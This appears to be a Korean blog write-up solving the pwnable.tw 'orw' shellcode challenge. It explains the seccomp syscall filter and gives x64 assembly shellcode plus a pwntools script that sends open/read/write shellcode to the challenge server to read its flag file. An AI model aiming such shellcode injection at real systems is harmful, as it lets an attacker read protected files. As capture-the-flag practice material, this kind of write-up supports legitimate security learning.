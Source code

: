 ```yaml
---
title: pwnable.tw orw풀이
published: 2022-07-01
tags: [shellcode]
category: pwn
draft: false
---
```


# orw
![alt text](image.png)

문제에서 open, read, write 
syscall만 허용이 된다.

![
](image-5.png)

거기다가 이 코드를 보면 unk_808640에서
복사해서 들어가는데 v3에는 BPF가 들어간다.
(바이트코드 필터) 

![
](image-6.png)
unk_808640 hex table이다.
i386 syscall table 기준으로 보면

![alt text](image-7.png)
1 = exit, 3 = read, 4 = write, 5 open이다.
그리고 기타 시그널 복귀 등이 있다. 
이것을 제외하고 모든 시스템 콜을 차단한다.
orw shellcode 작성문제이다.

![
](image-1.png)

드림핵에서 풀었던 기초적인
쉘코드 문제랑 완전 비슷하다.

shellcraft 함수를 사용해서 풀어보겠다.

![alt text](image-3.png)

x86이다.

![alt text](image-4.png)

x86 syscall table 문서 참고해서 인자 잘 넣어주면 된다.

```asm
    mov rax, 0x72672f666c616700
    push rax
    mov rax, 0x002f686f6d652f6f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x1000
    mov rdx, 0x1000
    mov rax, 0x0
    syscall

    mov rdi, 1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall    
```

전에 만들었던 x64 쉘코드인데
rax, eax 호환되는 것처럼 쉽게 생각하면 쉽게 풀 수 있다.

```python
from pwn import *
r = remote('chall.pwnable.tw', 10001)
context.arch = 'i386'

dir = "/home/orw/flag"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('eax', 'esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)

r.sendlineafter(b"Give my your shellcode:", asm(shellcode))
r.interactive()

```

